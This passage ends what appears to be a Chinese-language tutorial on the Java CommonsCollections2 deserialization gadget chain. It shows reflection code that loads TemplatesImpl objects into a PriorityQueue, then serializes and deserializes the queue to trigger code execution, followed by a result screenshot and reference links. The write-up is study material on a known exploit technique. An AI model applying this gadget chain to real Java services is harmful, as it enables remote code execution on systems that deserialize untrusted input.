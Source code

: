 ```
        Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
        field3.setAccessible(true);
        field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.ser"));
        outputStream.writeObject(queue);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.ser"));
        inputStream.readObject();

    }
}
```

运行结果如下：

![10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/dce432db-b9c6-a34c-fd06-5c857cb4d25d.png)

# 参考链接

1. https://www.cnblogs.com/nice0e3/p/13860621.html
2. https://su18.org/post/ysoserial-su18-2/#commonscollections2

